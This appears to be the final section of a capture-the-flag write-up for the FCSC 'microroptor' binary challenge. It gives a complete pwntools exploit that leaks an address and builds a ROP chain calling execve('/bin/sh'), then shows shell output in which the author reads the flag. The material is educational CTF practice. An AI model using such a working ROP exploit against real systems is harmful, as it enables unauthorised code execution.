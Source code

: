 FINAL EXPLOIT:

```python
from pwn import *

process = remote('localhost', 4000)

leak = process.recvline().decode().strip()
elf_address = int(leak, 16) - 16400

print(f"Leaked address: {leak}")
print(f"Calculated ELF base address: 0x{elf_address:x}")

pop_rax = elf_address + 0x000000000000116d
pop_rdi = elf_address + 0x000000000000116f
mov_rdi_rax = elf_address + 0x0000000000001169
syscall = elf_address + 0x0000000000001173
pop_rsi_pop_r15 = elf_address + 0x0000000000001249
pop_rdx = elf_address + 0x0000000000001171

bin_sh_address = elf_address + 16480

bin_sh_hex = u64(b"/bin/sh\x00")

rop = b"A" * 40
rop += p64(pop_rdi)
rop += p64(bin_sh_address)
rop += p64(pop_rax)
rop += p64(bin_sh_hex)
rop += p64(mov_rdi_rax)

rop += p64(pop_rdi)
rop += p64(bin_sh_address)
rop += p64(pop_rsi_pop_r15)
rop += p64(0)*2
rop += p64(pop_rdx)
rop += p64(0)
rop += p64(pop_rax)
rop += p64(59)
rop += p64(syscall)

process.sendline(rop)

process.interactive()
```
Once launched

```bash
└─$ python3 exploit.py
[+] Opening connection to localhost on port 4000: Done
Leaked address: 0x55b5365b2010
Calculated ELF base address: 0x55b5365ae000
[*] Switching to interactive mode
Nope, you are no master.
$ ls
flag
microroptor
$ cat flag
FCSC{e3752da07f2[....]cf36f9258}
$
```
 if you have any questions you can dm me on discord : [zeletix.]()
